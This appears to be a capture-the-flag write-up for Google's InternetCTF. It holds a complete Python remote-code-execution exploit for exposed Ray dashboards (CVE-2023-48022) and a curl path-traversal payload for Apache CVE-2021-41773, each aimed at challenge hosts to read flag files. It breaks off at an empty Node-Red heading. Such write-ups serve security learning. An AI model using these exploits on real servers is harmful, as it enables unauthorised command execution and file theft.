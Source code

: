 ```yaml
---
description: https://capturetheflag.withgoogle.com/internet
---
```


# Google InternetCTF

This page contains mic check and known vulns.

## Mic Check

```
tap tap tap Is this thing on? Here's a flag CTF{welcome_internetctf}
```

## Exposed Ray Dashboard (known rce)

Read more about  CVE-2023-48022 at : [https://www.vicarius.io/vsociety/posts/the-story-of-shadowray-cve-2023-48022](https://www.vicarius.io/vsociety/posts/the-story-of-shadowray-cve-2023-48022)

Modified `exploit.py`

```python
import argparse
import time
import os
import ray
from ray.job_submission import JobSubmissionClient, JobStatus
import re
import sys

# Function to submit a job to the Ray cluster
def submit_job(host, cmd):
    client = JobSubmissionClient(f"{host}")
    job_id = client.submit_job(
        entrypoint=f"{cmd}",
        runtime_env={"working_dir": "./"}
    )
    print(f"Submitted job ID: {job_id}")
    return client, job_id

# Wait for a job to reach a specified status or timeout
def wait_until_status(client, job_id, status_to_wait_for, timeout_seconds=300):
    start = time.time()
    while time.time() - start <= timeout_seconds:
        status = client.get_job_status(job_id)
        print(f"Status: {status}")
        if status in status_to_wait_for:
            break
        time.sleep(1)

# Check if the host matches the required format
def validate_host_format(host):
    if not re.match(r'^https?://\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d+$', host):
        print("Error: Host must be in the format 'http(s)://<ip>:<port>'.")
        sys.exit(1)
        
if __name__ == "__main__":
    # Parse command line arguments
    parser = argparse.ArgumentParser(description="Submit a job to Ray cluster with dynamic host and command execution.")
    parser.add_argument("--host", type=str, required=True, help="The host address of the Ray cluster head node. Format: http(s)://<ip>:<port>")
    parser.add_argument("--cmd", type=str, required=True, help="The command to be executed on the Ray cluster.")
    args = parser.parse_args()
    validate_host_format(args.host)

    client, job_id = submit_job(args.host, args.cmd)

    wait_until_status(client, job_id, {JobStatus.SUCCEEDED, JobStatus.STOPPED, JobStatus.FAILED})

    # Retrieve and print logs from the job
    logs = client.get_job_logs(job_id)
    print(logs)
```

get the ip of the hosted url using `dig`

```sh
 python3 exploit.py --host http://34.147.80.1:1337 --cmd 'cat /flag/flag.txt'
```

## Apache CVE-2021-41773 (path traversal)

[https://www.hackthebox.com/blog/cve-2021-41773-explained](https://www.hackthebox.com/blog/cve-2021-41773-explained)

{% code overflow="wrap" %}
```sh
curl http://chal-apache.internet-ctf.kctf.cloud:1337/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag/flag.txt
```
{% endcode %}

## Node-Red Exposed UI (known rce)
